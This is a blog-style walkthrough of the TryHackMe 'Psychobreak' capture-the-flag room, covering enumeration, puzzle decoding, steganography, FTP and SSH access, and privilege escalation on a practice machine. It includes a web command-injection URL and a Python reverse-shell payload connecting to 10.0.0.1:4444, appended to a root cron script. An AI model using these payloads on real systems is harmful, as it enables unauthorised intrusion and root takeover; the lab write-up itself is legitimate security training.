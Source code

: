 ```yaml
---
layout: post
title: Psychobreak
date: 2020-11-14 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,puzzle]
image: /assets/img/tryhackme/psychobreak/room_icon.jpeg
---
```


---
<p>Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

<p>
Deploy the VM and let's go...
First up is enumeration</p>

## <ins>Task 1</ins>
---
<br>
![nmap_scan](/assets/img/tryhackme/psychobreak/nmap.PNG)
<br>
<p>A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.</p>


## <ins>Task 2</ins>
---
<br>
![http_service](/assets/img/tryhackme/psychobreak/3.png)
![room_hint](/assets/img/tryhackme/psychobreak/4.png)
<br>
<p>In the source page we can find the room name. Let’s go into the room.</p>

<br>
![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
<br>
<p>We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.</p>

<br>
![second_sadist_room](/assets/img/tryhackme/psychobreak/6.png)
<br>
<p>After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.</p>

<br>
![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
<br>
At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text.

<br>
![decode](/assets/img/tryhackme/psychobreak/8.png)
<br>
<p>After decoding, enter the decoded text to get access to map. Let’s move on to the next room…</p>

<br>
![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
<br>
<p>In the source code of the page we can find a hint.</p>

<br>
![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
<br>
<p>I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.</p>

<pre>gobuster dir -u http://ip-address/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100 </pre>

use gobuster with the medium wordlist to find the hidden directory.

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
After clicking on the link we are redirected to another page.

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
After clicking on the link, it redirects to another page.

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….

<br>
<pre>http://ip-address/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls .. </pre>

![dir_list](/assets/img/tryhackme/psychobreak/21.png)
I downloaded the two files after moving into the other directory that was returned in the response.

## <ins>Task 3</ins>

The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.

<pre>binwalk -e image.jpg</pre>
After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
Using the message that is decrypted  to extract the contents of the other image file with steghide.

<pre>steghide --extract -sf image_file.jpg</pre>
The text file gives the ftp credentials. Let’s login to ftp…

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## <ins>Task 4</ins>

I found two files in the ftp server and I downloaded using the get command.

<pre>get file-name</pre>
![program](/assets/img/tryhackme/psychobreak/30.png)

After running the program file I found that it takes a word as a argument. So, I ran the bash script.

<pre>
for i in $(cat list.dic);
do
./program $i;
done
</pre>

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().


## <ins>Task 5</ins>

The decoded text is the SSH password. Without further wait, let’s login to ssh.

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
We found the user.txt in the home directory and some other hidden files

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
We also got the root flag.

## Bonus

![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

The bonus task is to delete the user ruvik

<pre>userdel -r ruvik</pre>
Run this as root

That’s it folks. Happy Hacking!!!
